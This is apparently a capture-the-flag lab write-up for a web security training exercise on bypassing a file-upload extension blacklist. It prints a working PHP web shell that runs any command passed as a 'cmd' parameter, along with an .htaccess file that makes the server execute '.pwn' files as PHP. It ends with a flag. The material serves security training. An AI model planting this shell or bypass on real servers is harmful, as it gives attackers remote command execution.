




# Web shell upload via extension blacklist bypass

## Discovery:

URL: https://0a09009f03727c90837c658400d500e0.web-security-academy.net/my-account?id=wiener



```
└─$ cat shell.pwn                                                                
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

```
└─$ cat .htaccess                           
<FilesMatch "\.pwn$">
    SetHandler application/x-httpd-php
</FilesMatch>
```







# Flag:

```
QQxUzRBENVnHzPMJCkwBK6wTSDQW6sdf
```